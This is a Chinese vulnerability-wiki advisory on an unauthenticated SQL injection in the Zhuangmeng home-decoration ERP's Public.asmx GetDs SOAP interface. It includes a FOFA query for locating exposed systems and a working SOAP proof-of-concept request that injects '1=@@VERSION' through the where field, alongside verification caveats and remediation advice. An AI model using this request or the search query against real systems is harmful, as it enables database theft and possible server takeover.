

# 装盟家装ERP Public.asmx GetDs SQL 注入

## 条目说明

- 对象与具体问题：装盟家装ERP；Public.asmx GetDs SQLi
- 版本、配置及部署条件：SQL Server；表名/where可控声明
- 认证与权限前提：无CookieSOAP
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- GetDs接受tbName/where可能为越权SQL接口，需根因界定，不只泛SQLi
- Content-Length:length占位不可直接请求；@@VERSION转换错误需响应
- 截图未视检；高权限后果条件保留但版本补丁无证

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

装盟科技-家装ERP管理系统 Public.asmx 接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

## 影响版本

装盟科技-家装ERP管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="装盟科技-家装ERP管理系统"

POC/EXP：****

```http
POST /WEB_SERVICE/Public.asmx HTTP/1.1
Host: 127.0.0.1
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://tempuri.org/GetDs"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetDs xmlns="http://tempuri.org/">
      <tbName>master.dbo.sysdatabases</tbName>
      <where>1=@@VERSION</where>
    </GetDs>
  </soap:Body>
</soap:Envelope>
```

> 请求长度说明：原资料 Content-Length 为 length；静态长度已移除，应由客户端根据最终请求体的字节数生成。




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
